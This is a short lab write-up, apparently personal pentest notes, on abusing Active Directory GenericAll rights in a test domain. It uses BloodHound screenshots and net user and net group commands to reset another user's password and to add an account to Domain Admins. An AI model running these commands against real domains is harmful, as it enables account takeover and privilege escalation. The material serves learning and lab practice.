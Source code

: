 # Abusing ACL

	test command


## GenericALL-User

We will check bloodhound and user has GenericAll rights for another user

![image](https://user-images.githubusercontent.com/13157446/129450372-671b8874-0d30-48fd-8163-8c003cc7fdb2.png)

dontmindme user can change iwouldmind users password without knowing prior password

![image](https://user-images.githubusercontent.com/13157446/129450621-c28f34d9-8f4a-4bc8-8c18-efb44e977cb9.png)

Fail with another user

```text
PS C:\Users\testuser\Desktop\sharphound> whoami
valhalla\testuser
PS C:\Users\testuser\Desktop\sharphound> net user iwouldmind NewPass123! /domain
İstek, valhalla.local etki alanının denetleyicisinde işlenecek.

5 sistem hatası oldu.

Erişim engellendi.

PS C:\Users\testuser\Desktop\sharphound>
```

## GenericALL-Group

Groups for dontmindme user

```text
PS C:\Users\testuser\Desktop\sharphound> net user dontmindme /domain
İstek, valhalla.local etki alanının denetleyicisinde işlenecek.

Kullanıcı adı                         dontmindme
Tam ad                                dontmindme
Açıklama
Kullanıcı açıklaması
Ülke kodu                             000 (Sistem Varsayılan değer)
Hesap etkin                           Evet
Hesap zaman aşımı                     Asla

Parolanın son ayarlanmadı             14.08.2021 17:59:27
Parola süre sonu                      Asla
Değişebilir parola                    15.08.2021 17:59:27
Parola gerekli                        Evet
Kullanıcı parolayı değiştirebilir     Evet

İzin verilen iş istasyonları          Tümü
Oturum açma kodu
Kullanıcı profili
Ana dizin
Son oturum açma                       14.08.2021 18:03:51

İzin verilen oturum açma saatleri     Tümü

Yerel Grup Üyeliği
Genel Grup üyeliği                    *Domain Users
Komut başarıyla tamamlandı.
```

Groups for iwouldmind user

```text
PS C:\Users\testuser\Desktop\sharphound> net user iwouldmind /domain
İstek, valhalla.local etki alanının denetleyicisinde işlenecek.

Kullanıcı adı                         iwouldmind
Tam ad                                iwouldmind
Açıklama
Kullanıcı açıklaması
Ülke kodu                             000 (Sistem Varsayılan değer)
Hesap etkin                           Evet
Hesap zaman aşımı                     Asla

Parolanın son ayarlanmadı             14.08.2021 18:04:09
Parola süre sonu                      Asla
Değişebilir parola                    15.08.2021 18:04:09
Parola gerekli                        Evet
Kullanıcı parolayı değiştirebilir     Evet

İzin verilen iş istasyonları          Tümü
Oturum açma kodu
Kullanıcı profili
Ana dizin
Son oturum açma                       Asla

İzin verilen oturum açma saatleri     Tümü

Yerel Grup Üyeliği
Genel Grup üyeliği                    *Domain Users
Komut başarıyla tamamlandı.
```

We will check bloodhound and user has GenericAll rights for group

![image](https://user-images.githubusercontent.com/13157446/129450825-b5431b47-a3ce-4b2d-99c4-148090b4b631.png)

dontmindme user can add any user to this group

```text
PS C:\Users\testuser\Desktop\sharphound> net group "Domain Admins" /domain
İstek, valhalla.local etki alanının denetleyicisinde işlenecek.

Grup adı     Domain Admins
Açıklama     Designated administrators of the domain

Üyeler

-------------------------------------------------------------------------------
Administrator            THOR$
Komut başarıyla tamamlandı.

PS C:\Users\testuser\Desktop\sharphound>
```

Try to add with different user

```text
PS C:\Users\testuser\Desktop\sharphound> net group "Domain Admins" iwouldmind /add /domain
İstek, valhalla.local etki alanının denetleyicisinde işlenecek.

5 sistem hatası oldu.

Erişim engellendi.
```

try to add with idontmind user

![image](https://user-images.githubusercontent.com/13157446/129451269-4c579420-0e72-47be-b612-1081a906bd9c.png)

